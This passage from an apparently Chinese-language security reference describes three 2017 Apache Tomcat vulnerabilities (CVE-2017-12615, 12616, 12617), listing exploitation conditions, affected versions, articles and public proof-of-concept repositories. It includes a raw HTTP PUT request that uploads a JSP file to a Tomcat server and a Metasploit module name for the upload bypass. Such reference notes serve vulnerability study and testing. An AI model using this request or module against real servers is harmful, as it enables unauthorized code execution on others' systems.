     - CVE-2017-12616:信息泄露漏洞

        当 Tomcat 中启用了 VirtualDirContext 时,攻击者将能通过发送精心构造的恶意请求,绕过设置的相关安全限制,或是获取到由 VirtualDirContext 提供支持资源服务的 JSP 源代码,从而造成代码信息泄露.

- 漏洞利用条件

    - CVE-2017-12615 漏洞利用需要在 Windows 环境,且需要将 readonly 初始化参数由默认值设置为 false,经过实际测试,Tomcat 7.x 版本内 web.xml 配置文件内默认配置无 readonly 参数,需要手工添加,默认配置条件下不受此漏洞影响.

    - CVE-2017-12616 漏洞需要在 server.xml 文件配置 VirtualDirContext 参数,经过实际测试,Tomcat 7.x 版本内默认配置无 VirtualDirContext 参数,需要手工添加,默认配置条件下不受此漏洞影响.

- 影响版本

    - CVE-2017-12615 影响版本 : Apache Tomcat 7.0.0 ~ 7.0.79 (windows 环境)
    - CVE-2017-12616 影响版本 : Apache Tomcat 7.0.0 ~ 7.0.80

- 文章
    - [CVE-2017-12615/CVE-2017-12616:Tomcat信息泄漏和远程代码执行漏洞分析报告](https://paper.seebug.org/399/)

- POC | Payload | exp

    - [iBearcat/CVE-2017-12615](https://github.com/iBearcat/CVE-2017-12615)
    - [breaktoprotect/CVE-2017-12615](https://github.com/breaktoprotect/CVE-2017-12615)

    ```
    PUT /1.jsp/ HTTP/1.1
    Host: your-ip:8080
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    <% out.write("<html><body><h3>[+] JSP upload successfully.</h3></body></html>"); %>
    ```

**CVE-2017-12617**
- 简介

    运行启用了 HTTP PUT 的 Apache Tomcat 特定版本时(例如，通过将默认 servlet 的只读初始化参数设置为 false)可以通过特制请求将 JSP 文件上载到服务器。然后可以请求此 JSP，并且服务器将执行其中包含的所有代码。

- 影响版本
    - Apache Tomcat 7.0.0 ~ 7.0.81
    - Apache Tomcat 8.0.0 ~ 8.0.17

- 文章
    - [CVE-2017-12617-Tomcat远程代码执行漏洞复现测试](https://www.freebuf.com/vuls/150203.html)

- POC | Payload | exp
    - [cyberheartmi9/CVE-2017-12617](https://github.com/cyberheartmi9/CVE-2017-12617)

- MSF Module
    ```
    use exploit/multi/http/tomcat_jsp_upload_bypass
    ```
